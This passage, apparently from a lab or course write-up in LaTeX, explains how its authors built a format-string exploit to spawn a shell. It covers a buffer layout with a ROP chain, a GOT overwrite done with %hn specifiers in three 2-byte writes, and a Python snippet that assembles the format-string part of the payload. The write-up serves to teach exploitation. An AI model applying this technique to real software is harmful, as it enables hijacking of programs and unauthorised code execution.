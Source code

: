 \section{Implementation}\label{sec:implementation}
The buffer we used to execute {\tt execve("/bin/shh")} has the following contruction:

{\tt \small
\begin{verbatim}
+---------+  ^
| %x & %n |  |  stack
| three   |  |  grows
| times   |  |  this way
+---------+  +
|   ROP   |
|  chain  |
+---------+
| padding |
| optional|
+---------+
|  exit   |
|addresses|
+---------+
\end{verbatim}
}

We explain step by step how to construct the exploit in this section.

\subsection{printf specifiers}
When executing the \%n specifiers which point to the exit addresses, the printf() function will overwrite the entry in the GOT table. We needed to write the address {\tt 0x7ffff7b49c0e} at the address {\tt 0x601030} (see subsection on exit address). We write this adress in three times, in the following order:
\begin{enumerate}
\item {\tt 0x7fff} at {\tt 0x601034}
\item {\tt 0x9c0e} at {\tt 0x601030}
\item {\tt 0xf7b4} at {\tt 0x601032}
\end{enumerate}
Since \%n write the number of printed characters since the beginning of the execution of printf(), we need to write the address in the increasing order of their values. Because the position of the addresses of exit on the stack where from the 67th to the 69th and we only want to write 2 bytes, then the exploit must start with:

{\tt \small
\begin{verbatim}
exploit = ""
exploit += " %{}x ".format(0x7fff)
exploit += " %67$hn "
exploit += " %{}x ".format(0x9c0e - 0x7fff)
exploit += " %68$hn "
exploit += " %{}x ".format(0xf7b4 - 0x9c0e)
exploit += " %69$hn "
\end{verbatim}
}

A few change in the numerical values must be performed to take in account that we print spaces with the specifiers.

